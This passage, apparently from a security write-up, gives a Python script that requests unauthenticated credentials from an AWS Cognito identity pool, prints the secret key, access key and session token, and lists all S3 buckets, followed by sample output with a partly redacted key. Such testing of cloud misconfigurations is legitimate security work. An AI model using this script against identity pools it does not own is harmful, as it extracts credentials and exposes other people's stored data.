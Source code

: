 try:

   # Get access token

   client = boto3.client('cognito-identity', region\_name="us-east-2")

   resp =  client.get\_id(IdentityPoolId=\[IDENTITY\_POOL\])

  

   print "\\nIdentity ID: %s"%(resp\['IdentityId'\])

   print "\\nRequest ID: %s"%(resp\['ResponseMetadata'\]\['RequestId'\])

   resp = client.get\_credentials\_for\_identity(IdentityId=resp\['IdentityId'\])

   secretKey = resp\['Credentials'\]\['SecretKey'\]

   accessKey = resp\['Credentials'\]\['AccessKeyId'\]

   sessionToken = resp\['Credentials'\]\['SessionToken'\]

   print "\\nSecretKey: %s"%(secretKey)

   print "\\nAccessKey ID: %s"%(accessKey)

   print "\\nSessionToken %s"%(sessionToken)  
  

   # Get all buckets names

   s3 = boto3.resource('s3',aws\_access\_key\_id=accessKey, aws\_secret\_access\_key=secretKey, aws\_session\_token=sessionToken, region\_name="eu-west-1")

    print "\\nBuckets:"

   for b in s3.buckets.all():

       print b.name  
  

except (ClientError, KeyError):

   print "No Unauth"

   exit(0)

  

  

  
  
If unauthenticated user access to AWS S3 buckets is allowed, your output should look something like this:  
  

  

Identity ID: us-east-2:ddeb887a-e235-41a1-be75-2a5f675e0944  
  
Request ID: cb3d99ba-b2b0-11e8-9529-0b4be486f793  
  
SecretKey: wJE/\[REDACTED\]Kru76jp4i  
  